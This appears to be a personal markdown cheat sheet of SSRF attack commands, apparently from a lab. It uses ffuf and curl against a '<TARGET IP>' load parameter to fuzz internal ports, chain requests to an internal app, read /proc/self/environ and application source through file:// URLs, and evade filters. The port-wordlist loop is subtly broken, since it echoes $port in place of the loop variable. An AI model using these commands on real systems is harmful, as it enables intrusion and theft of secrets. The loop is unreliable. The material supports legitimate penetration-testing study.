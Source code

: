 # Fuzzing local ports

## How to generate port wordlist

```for i in {1..65535};do echo $port >> ports.txt;done```

## FFUF

```ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30```

# Interacting with the Target (localports)

```curl -i -s "http://<TARGET IP/load?q=http://127.0.0.1:PORT```

# Interacting with other web servers

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"```

# Chaining multiple SSRFs together

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```


```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"```


```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -```

# Retrieving local file through the target application

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"```

# Evading filters (Error based)

## Removing :// from request

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```


